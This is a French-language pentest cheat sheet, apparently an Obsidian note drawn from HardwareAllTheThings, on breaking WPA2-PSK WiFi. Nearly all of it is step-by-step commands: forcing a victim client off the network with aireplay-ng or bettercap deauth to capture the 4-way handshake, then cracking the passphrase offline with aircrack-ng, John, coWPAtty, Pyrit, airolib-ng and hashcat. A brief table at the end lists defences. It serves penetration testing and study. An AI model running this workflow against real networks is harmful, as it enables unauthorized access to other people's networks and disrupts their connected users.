

# 🔐 Attaques WiFi — WPA2-PSK

> [!info] **En 1 phrase**
> Le WPA2-PSK se casse en **capturant le handshake 4-way** (via deauth d'un client) puis en **cracker la passphrase
> hors-ligne** (PBKDF2 → PMK → PTK) avec aircrack-ng, John, coWPAtty, Pyrit ou bettercap — le maillon faible est
> toujours la **passphrase**.

---

## 🎯 Concept



> [!info] 💡 **Pourquoi « hors-ligne » ?**
> Le handshake contient tout ce qu'il faut pour vérifier une passphrase : on ne touche plus le réseau.
> PBKDF2-HMAC-SHA1 (4096 itérations) rend chaque tentative **lente** → cibler la wordlist.

---

## 🎯 Capture du handshake 4-way

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w wpajohn mon0     # lancer le dump

# Déauth un client → il se reconnecte → handshake capturé
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0
#  > Vérifier "WPA handshake" en haut à droite de airodump-ng
```

> [!warning] ⚠️ **Piège** : un handshake partiel ne suffit pas.
> Attendre d'avoir les **4 messages EAPOL** (`tshark -r cap.cap -Y "eapol"`).

---

## 💥 Crack avec aircrack-ng

```bash
# Simple
aircrack-ng -0 -w /pentest/passwords/john/password.lst wpajohn-01.cap

# Cibler un BSSID précis
aircrack-ng -b $AP_MAC -w rockyou.txt capture-01.cap

# Plusieurs dictionnaires
aircrack-ng -w pass1.txt,pass2.txt wpajohn-01.cap
```

---

## 🔗 Crack avec John the Ripper (mangling)

```bash
# Règles de mangling (ajouter dans john.conf) :
# $[0-9]$[0-9]
# $[0-9]$[0-9]$[0-9]

# Combiner règles + aircrack via pipe
john --wordlist=/pentest/passwords/john/password.lst --rules --stdout | \
     aircrack-ng -0 -e $AP_SSID -w - /root/wpajohn

# Convertir .cap → .hccap → John Jumbo
aircrack-ng <FileName>.cap -J <outFile>
hccap2john <outFile>.hccap > <JohnOutFile>
john <JohnOutFile>
```

---

## 🌈 Crack avec coWPAtty (rainbow PMK)

> Meilleur pour les **rainbow tables** de PMK (précalcul).

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w wpacow mon0
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0      # handshake

# Mode dictionnaire (lent)
cowpatty -r wpacow-01.cap -f /pentest/passwords/john/password.lst -2 -s $AP_SSID

# Mode rainbow table (rapide, précalcul PMK)
genpmk -f /pentest/passwords/john/password.lst -d wifuhashes -s $AP_SSID
cowpatty -r wpacow-01.cap -d wifuhashes -2 -s $AP_SSID
```

---

## 🖥️ Crack avec Pyrit (GPU / DB de PMK)

```bash
airmon-ng start wlan0 3
airodump-ng -c 3 --bssid $AP_MAC -w wpapyrit mon0
aireplay-ng -0 1 -a $AP_MAC -c $VICTIM_MAC mon0

# Nettoyer le cap
pyrit -r wpapyrit-01.cap analyze
pyrit -r wpapyrit-01.cap -o wpastripped.cap strip

# Dictionary attack direct (lent)
pyrit -r wpapyrit-01.cap -i /pentest/passwords/john/password.lst -b $AP_MAC attack_passthrough

# Attaque par base de PMK précalculés
pyrit eval
pyrit -i /pentest/passwords/john/password.lst import_passwords
pyrit -e $AP_SSID create_essid
pyrit batch
pyrit -r wpastripped.cap attack_db

# GPU
pyrit list_cores
pyrit -i /pentest/passwords/john/password.lst import_passwords
pyrit -e $AP_SSID create_essid
pyrit batch
pyrit -r wpastripped.cap attack_db
```

---

## 🗄️ airolib-ng : base de PMK pour cracks futurs

```bash
# Importer l'ESSID + la wordlist → précalculer les PMK
echo wifu > essid.txt
airolib-ng test.db --import essid essid.txt
airolib-ng test.db --stats
airolib-ng test.db --import passwd /pentest/passwords/john/password.lst
airolib-ng test.db --batch
airolib-ng test.db --stats

# Crack via la base
aircrack-ng -r test.db wpajohn-01.cap

# Nettoyage
# airolib-ng test.db --clean all
```

> 💡 Une fois les PMK précalculés pour un ESSID, tous les futurs handshakes de **cet ESSID** se crackent instantanément.

---

## 🤖 Crack avec bettercap

```bash
# Installation
go get github.com/bettercap/bettercap
cd $GOPATH/src/github.com/bettercap/bettercap
make build && sudo make install
sudo bettercap -eval "caplets.update; q"

# Recon WiFi
sudo bettercap -iface wlan0
> wifi.recon on
> set wifi.show.sort clients desc
> set ticker.commands 'clear; wifi.show'
> ticker on
> wifi.recon.channel 1

# Deauth le client → handshake capturé
> wifi.deauth e0:xx:xx:xx:xx:xx

# Convertir + crack
/path/to/cap2hccapx bettercap-wifi-handshakes.pcap bettercap-wifi-handshakes.hccapx
/path/to/hashcat -m 2500 -a3 -w3 bettercap-wifi-handshakes.hccapx '?d?d?d?d?d?d?d?d'
```

---

## 🔍 Détection & Défense

| Réponse | Détail |
|---|---|
| **Passphrase forte** | 20+ caractères aléatoires (rockyou = mort) ; éviter les mots du dictionnaire |
| **WPA3 / SAE** | Élimine le crack offline par handshake (sauf downgrade) |
| **802.1X / Enterprise** | Remplace le PSK partagé par une authentification par utilisateur |
| **WIDS** | Détecte les deauth répétées (signature de collecte d'handshake) |

## ⚠️ Tips & Pièges

- Le crack est **lent** (PBKDF2) : pas de brute-force massif → **wordlist ciblée / masque intelligent**.
- **Précalculer les PMK** (airolib-ng, pyrit batch) accélère les cracks suivants du même ESSID.
- Un **handshake incomplet** (1-2 messages) ne peut pas être cracké — réessayer la deauth.
- **WPA2 + PMKID** : l'AP peut fournir le PMKID sans client → voir la fiche PMKID.
- Le format **hccapx** (`-m 2500`) est l'ancien ; préférer le **22000** (`hcxpcapngtool -o hash.22000`).

> [!info] 📚 **Sources**
> GitHub : [swisskyrepo/HardwareAllTheThings – `docs/protocols/wifi/wifi-wpa.md`](https://github.com/swisskyrepo/HardwareAllTheThings/blob/main/docs/protocols/wifi/wifi-wpa.md)

➡️ **Liens :** [[Attaques WiFi (WPA2 et PMKID)|📶 Hub WiFi]] · [[Attaques WiFi - Préparation & Basiques|🧰 Préparation]] · [[Attaques WiFi - PMKID|📶 PMKID]] · [[Attaques WiFi - WPS|🔢 WPS]] · [[Password Cracking|🔐 Cracking]] · [[Bibliothèque technique|🏠 Index]]
